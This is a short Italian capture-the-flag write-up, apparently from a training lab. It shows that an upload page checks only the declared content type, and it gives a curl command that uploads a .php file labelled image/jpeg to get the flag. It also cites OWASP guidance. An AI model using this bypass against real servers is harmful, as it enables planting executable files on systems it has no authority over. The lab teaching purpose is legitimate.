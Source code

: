 

Navigando su `http://{{IP_ADDRESS}}/?page=upload ` con i DevTool notiamo che non viene fatto un vero controllo sul file
ma solo sul tipo di file che si sta dichiarando di uploadare, questo ovviamente non va bene e infatti

se carichiamo un qualsiasi file dichiarando un tipo diverso con curl
```
curl \
-X POST \
-H 'Content-Type: multipart/form-data' \
-F 'uploaded=@test.php;type=image/jpeg' \
-F 'Upload=Upload' \
'http://{{IP_ADDRESS}}/?page=upload'
```

Otteniamo la flag nella risposta

NB: stiamo caricando un file .php ma nel type spefichiamo image/jpeg

Documentazione in merito :

[OWASP_uncheckedUpload](https://www.owasp.org/index.php/Unrestricted_File_Upload)
